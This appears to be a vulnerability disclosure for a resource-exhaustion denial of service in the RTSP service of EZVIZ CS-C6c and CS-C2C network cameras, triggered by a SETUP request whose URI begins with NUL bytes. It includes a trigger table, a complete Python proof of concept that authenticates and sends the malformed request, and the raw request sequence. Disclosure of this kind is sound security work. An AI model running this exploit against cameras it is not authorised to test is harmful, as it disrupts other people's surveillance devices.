




# EZVIZ CS-C6c/CS-C2C - RTSP Resource Exhaustion via NUL-prefixed SETUP URI

### Information

Vendor: Hangzhou Ezviz Network Co., Ltd. (EZVIZ / 杭州萤石网络股份有限公司)

Affected Product: EZVIZ CS-C6c (CS-C6c-V101-1J4WF) and EZVIZ CS-C2C (CS-C2C-1D2WFR-B) network cameras

Affected Firmware Version: CS-C6c: V5.3.8 build 231128; CS-C2C: V5.3.4 build 230420

Vendor Homepage: [https://www.ezviz.com/](https://www.ezviz.com/)

Vendor Contact Information: [security@ezviz.com](mailto:security@ezviz.com) (EZVIZ Security Response Center: https://www.ezviz.com/us/trust-center/security/response-center)



Affected Component: RTSP service (TCP/554)


### Description

A resource exhaustion vulnerability exists in the RTSP service of EZVIZ CS-C6c (CS-C6c-V101-1J4WF, firmware V5.3.8 build 231128) and EZVIZ CS-C2C (CS-C2C-1D2WFR-B, firmware V5.3.4 build 230420). A SETUP request whose request-line URI begins with NUL, or consists entirely of NUL bytes, is accepted at the TCP layer but receives no RTSP response, and the connection remains occupied. The behavior was reproduced with 1, 8, 32, 64, 128 and 256 NUL bytes, and with a NUL prefix followed by a normal URI, on SETUP, PLAY and TEARDOWN. Repeated or concurrent requests can accumulate and may exhaust RTSP connection resources, potentially causing a denial of service.

### Exploit Demo

The RTSP service returns `200 OK` for a normal `OPTIONS`. An unauthenticated `DESCRIBE` returns `401` with a Digest challenge; the PoC sends a valid authenticated `DESCRIBE` and receives `200 OK`. The next `SETUP` has a request-line URI consisting of 64 NUL bytes; the service ACKs the request at the TCP layer but sends no RTSP response for 30 seconds:



Wireshark shows the `SETUP` with the NUL URI, TCP keep-alive ACKs, and no RTSP response:



The TCP stream shows the authenticated `DESCRIBE` `200 OK`, the `SETUP` request line with NUL bytes, and no response:



The confirmed trigger surface covers leading/only NUL URIs:

| Target | URI value | Result |
|---|---|---|
| `SETUP_1` | 1 NUL | no response; no FIN/RST |
| `SETUP_1` | 8 / 32 / 64 / 128 / 256 NULs | no response; no FIN/RST |
| `SETUP_1` | 64 NULs + normal URI (NUL prefix) | no response |
| `SETUP_1` | one leading NUL + normal URI | no response |
| `SETUP_1` | trailing NUL on a normal URI | `200 OK` (control) |
| `SETUP_1` | embedded NUL | `415 Unsupported Media Type` (control) |
| `SETUP_1` | 64 x `A` | `415 Unsupported Media Type` (control) |
| `SETUP_2` | 64 NULs | no response |
| `PLAY` | 64 NULs | no response |
| `TEARDOWN` | 64 NULs | no response |

The controlled path uses an authenticated `DESCRIBE` before the NUL `SETUP`; a stale-bin replay whose `DESCRIBE` returned `401` also produced the same hang. The trigger is the leading/only NUL in the request-line URI; a trailing NUL alone did not trigger in the tested sample. Each malformed request occupies the connection without a response; repeated or concurrent requests may exhaust RTSP connection resources, potentially causing a denial of service.

The same behavior was confirmed on the CS-C2C unit during the analysis; the screenshots and video were captured on the CS-C6c unit.

A 55-second screen recording of the full reproduction is provided as [04_reproduction_video.mp4](./images/04_reproduction_video.mp4). It shows the authenticated `DESCRIBE`, the NUL-prefixed `SETUP`, and the 30-second no-response window.


### POC

The following standalone Python 3 PoC reproduces the representative trigger. Replace `TARGET_IP`, `USERNAME` and `PASSWORD` with the test device values. The trigger request is defined explicitly in the code.

```python
#!/usr/bin/env python3
"""EZVIZ CS-C6c SETUP NUL-prefixed URI hang PoC.

Hardcoded target: 192.168.1.100:554 (placeholder).
After a valid authenticated DESCRIBE, a SETUP request whose request-line URI
is 64 NUL bytes receives no RTSP response. The connection remains occupied.
Run this file directly from VS Code.
"""

import hashlib
import re
import socket
import time

TARGET_IP = "192.168.1.100"  # replace with the target camera IP
TARGET_PORT = 554
USERNAME = "REDACTED"  # replace with the account username
PASSWORD = "REDACTED"  # replace with the account password

REQUEST_INTERVAL = 1.0
RESPONSE_WAIT = 30.0
USER_AGENT = "LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)"

BASE = "rtsp://%s:%d" % (TARGET_IP, TARGET_PORT)

BASELINE_OPTIONS = (
    "OPTIONS " + BASE + " RTSP/1.0\r\n"
    "CSeq: 2\r\n"
    "User-Agent: " + USER_AGENT + "\r\n\r\n"
)

UNAUTH_DESCRIBE = (
    "DESCRIBE " + BASE + " RTSP/1.0\r\n"
    "CSeq: 3\r\n"
    "User-Agent: " + USER_AGENT + "\r\n"
    "Accept: application/sdp\r\n\r\n"
)

AUTH_DESCRIBE_TEMPLATE = (
    "DESCRIBE " + BASE + " RTSP/1.0\r\n"
    "CSeq: 4\r\n"
    "Authorization: Digest username=\"" + USERNAME + "\", realm=\"__REALM__\", nonce=\"__NONCE__\", "
    "uri=\"" + BASE + "\", response=\"__RESPONSE__\"\r\n"
    "User-Agent: " + USER_AGENT + "\r\n"
    "Accept: application/sdp\r\n\r\n"
)

# Request 4: the trigger. The request-line URI is 64 NUL bytes.
TRIGGER_NUL_COUNT = 64


def md5_hex(text):
    return hashlib.md5(text.encode("latin-1")).hexdigest()


def digest_response(method, uri, realm, nonce):
    ha1 = md5_hex("%s:%s:%s" % (USERNAME, realm, PASSWORD))
    ha2 = md5_hex("%s:%s" % (method, uri))
    return md5_hex("%s:%s:%s" % (ha1, nonce, ha2))


def render(template, realm, nonce, response):
    return (template.replace("__REALM__", realm)
                    .replace("__NONCE__", nonce)
                    .replace("__RESPONSE__", response))


def show_payload(payload):
    data = payload if isinstance(payload, bytes) else payload.encode("latin-1")
    text = data.decode("latin-1")
    print("  send:")
    for line in text.rstrip("\r\n").split("\r\n"):
        marker = ""
        if line.startswith("SETUP ") and "\x00" in line:
            line = "SETUP <64 NUL bytes> RTSP/1.0"
            marker = "   <-- NUL URI trigger"
        elif len(line) > 140:
            line = line[:110] + "... [%d bytes total]" % len(line)
        print("    | " + line + marker)


class Connection:
    def __init__(self, timeout):
        self.sock = socket.create_connection((TARGET_IP, TARGET_PORT), timeout=timeout)
        self.sock.settimeout(timeout)
        self.buffer = b""

    def close(self):
        try:
            self.sock.close()
        except OSError:
            pass

    def _fill(self):
        chunk = self.sock.recv(65536)
        if not chunk:
            raise ConnectionError("RTSP connection closed")
        self.buffer += chunk

    def _read_until(self, marker):
        while marker not in self.buffer:
            self._fill()
        index = self.buffer.index(marker) + len(marker)
        data, self.buffer = self.buffer[:index], self.buffer[index:]
        return data

    def _read_exact(self, size):
        while len(self.buffer) < size:
            self._fill()
        data, self.buffer = self.buffer[:size], self.buffer[size:]
        return data

    def read_response(self):
        head = self._read_until(b"\r\n\r\n")
        lines = head.decode("latin-1").split("\r\n")
        status = lines[0]
        headers = {}
        for line in lines[1:]:
            if not line:
                continue
            name, _, value = line.partition(":")
            key = name.strip().lower()
            value = value.strip()
            if key == "www-authenticate":
                if "digest" in value.lower():
                    headers[key] = value
                elif key not in headers:
                    headers[key] = value
            else:
                headers[key] = value
        length = int(headers.get("content-length", "0"))
        body = self._read_exact(length) if length else b""
        return status, headers, body

    def send(self, label, payload):
        print("\n" + label)
        show_payload(payload)
        time.sleep(REQUEST_INTERVAL)
        raw = payload.encode("latin-1") if isinstance(payload, str) else payload
        self.sock.sendall(raw)
        try:
            status, headers, body = self.read_response()
        except socket.timeout:
            print("  -> TIMEOUT: no RTSP response within %.1fs" % RESPONSE_WAIT)
            return None, {}, b""
        except (OSError, ValueError) as exc:
            print("  -> %s: %s" % (type(exc).__name__, exc))
            return None, {}, b""
        print("  <- " + status)
        return status, headers, body


def main():
    print("=" * 72)
    print("EZVIZ CS-C6c SETUP NUL-prefixed URI hang PoC")
    print("  target: %s:%d" % (TARGET_IP, TARGET_PORT))
    print("  trigger: SETUP with a 64-NUL request-line URI")
    print("=" * 72)

    conn = Connection(RESPONSE_WAIT)
    try:
        status, _, _ = conn.send("[1/4] Baseline OPTIONS", BASELINE_OPTIONS)
        if not status or not status.startswith("RTSP/1.0 200"):
            print("Baseline OPTIONS did not return 200; aborting.")
            return

        status, headers, _ = conn.send(
            "[2/4] Unauthenticated DESCRIBE", UNAUTH_DESCRIBE)
        if not status or not status.startswith("RTSP/1.0 401"):
            print("Expected a 401 Digest challenge; aborting.")
            return
        challenge = headers.get("www-authenticate", "")
        realm = re.search(r'realm="([^"]+)"', challenge).group(1)
        nonce = re.search(r'nonce="([^"]+)"', challenge).group(1)
        print("  realm: " + realm)
        print("  nonce: " + nonce)

        valid = digest_response("DESCRIBE", BASE, realm, nonce)
        request = render(AUTH_DESCRIBE_TEMPLATE, realm, nonce, valid)
        status, _, _ = conn.send("[3/4] Authenticated DESCRIBE", request)
        if not status or not status.startswith("RTSP/1.0 200"):
            print("Authenticated DESCRIBE did not return 200; aborting.")
            return

        auth_uri = BASE + "/"
        auth_response = digest_response("SETUP", auth_uri, realm, nonce)
        trigger = (
            b"SETUP " + b"\x00" * TRIGGER_NUL_COUNT + b" RTSP/1.0\r\n"
            b"CSeq: 5\r\n"
            + ('Authorization: Digest username="%s", realm="%s", nonce="%s", '
               'uri="%s", response="%s"\r\n' % (
                   USERNAME, realm, nonce, auth_uri, auth_response)).encode("latin-1")
            + ("User-Agent: %s\r\n" % USER_AGENT).encode("latin-1")
            + b"Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
        )
        print("\n" + "=" * 72)
        print(">>> TRIGGER: [4/4] SETUP with a 64-NUL request-line URI <<<")
        print(">>> The malformed request should receive no RTSP response. <<<")
        print("=" * 72)
        conn.send("[4/4] TRIGGER SETUP", trigger)
        print("\nThe malformed request occupies the connection without a response.")
        print("Repeated or concurrent requests may exhaust RTSP connection resources.")
    finally:
        conn.close()


if __name__ == "__main__":
    main()

```

### MSG

The complete representative request sequence follows. `192.168.1.100` is a placeholder for the target address; `<realm>`, `<nonce>`, `<valid response>` and `<session>` are dynamic values. The SETUP request whose request-line URI is 64 NUL bytes is the trigger.

```text
OPTIONS rtsp://192.168.1.100:554 RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)

DESCRIBE rtsp://192.168.1.100:554 RTSP/1.0
CSeq: 3
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Accept: application/sdp

DESCRIBE rtsp://192.168.1.100:554 RTSP/1.0
CSeq: 4
Authorization: Digest username="<username>", realm="<realm>", nonce="<nonce>", uri="rtsp://192.168.1.100:554", response="<valid response>"
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Accept: application/sdp

SETUP \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 RTSP/1.0
CSeq: 5
Authorization: Digest username="<username>", realm="<realm>", nonce="<nonce>", uri="rtsp://192.168.1.100:554/", response="<valid response>"
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Transport: RTP/AVP/TCP;unicast;interleaved=0-1
```

### Credit

CRfuzzer
